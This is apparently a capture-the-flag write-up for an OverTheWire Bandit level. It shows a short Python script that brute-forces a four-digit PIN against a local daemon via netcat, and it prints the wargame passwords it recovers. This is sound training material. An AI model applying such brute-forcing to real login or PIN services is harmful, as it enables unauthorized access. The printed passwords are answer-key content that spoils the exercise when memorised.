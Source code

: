 # Bandit 25

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

**Solution**

*Terminal*
```
bandit24@melinda:~$ mkdir /tmp/evanyeyeye_bandit25
bandit24@melinda:~$ cd /tmp/evanyeyeye_bandit25
bandit24@melinda:/tmp/evanyeyeye_bandit24$ nano program.py
```

*GNU nano editor*
```
for i in range(0,10000):
        i = str(i)
        if len(i) == 1:
                i = "000" + i
        elif len(i) == 2:
                i = "00" + i
        elif len(i) == 3:
                i = "0" + i
        print("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ " + i)
```

*Terminal*
```
bandit24@melinda:/tmp/evanyeyeye_bandit25$ python program.py | nc localhost 30002 | uniq
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

Password is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

*All descriptions are borrowed from OverTheWire.*
